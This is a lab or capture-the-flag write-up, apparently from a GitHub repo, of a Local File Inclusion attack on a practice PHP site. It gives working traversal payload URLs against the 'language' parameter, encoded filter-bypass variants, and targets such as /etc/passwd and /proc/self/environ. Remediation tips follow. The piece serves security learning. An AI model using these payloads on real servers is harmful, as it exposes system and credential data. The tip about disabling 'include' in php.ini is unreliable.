 # Local File Inclusion (LFI)

##  What I Did
Exploited a PHP web application by abusing the `language` parameter to access restricted server files like `/etc/passwd`. This confirmed a **Local File Inclusion (LFI)** vulnerability.

---

##  Tools Used
- LFI vulnerable site
- Browser (manual payload testing)
- Burp Suite (for request manipulation & encoding)
- Online Encoders (for obfuscating traversal attempts)

---

##  Screenshot – `/etc/passwd` Leaked via LFI
![lfi](../images/LFI.jpg)

---

##  Steps

### 1. Found the vulnerable `language` parameter

Legit request:
```
http://94.237.121.185:33465/index.php?language=en.php
```

Injected traversal payload:
```
http://94.237.121.185:33465/index.php?language=../../../../etc/passwd
```

 File loaded in-browser showing user entries like `root:x:0:0:/root:/bin/bash`

---

### 2. Tried Bypass Techniques (in case of filters)

URL encoded:
```
.../index.php?language=%2e%2e%2f%2e%2e%2fetc%2fpasswd
```

Alternate directory traversal:
```
.../index.php?language=....//....//....//etc/passwd
```

---

### 3. Explored More Sensitive Files (optional)

Tested for:
- `/proc/self/environ`
- `/etc/hostname`
- Application-specific `.log` files

Some returned useful debugging and environment variables.

---


## Fixes:

### 1. **Whitelist Acceptable Inputs**
   Accept only known safe files like `en.php`, `about.php`.

### 2. **Sanitize File Paths**
   Remove `../`, `%2e%2e`, and null bytes before including files.

### 3. **Restrict Server Permissions**
   Web server (e.g. `www-data`) should not access system files.

### 4. **Disable Dangerous Functions**
   In `php.ini`, turn off `allow_url_fopen`, `include`, etc.

### 5. **Logging & Monitoring**
   Flag excessive traversal attempts or failed file lookups.
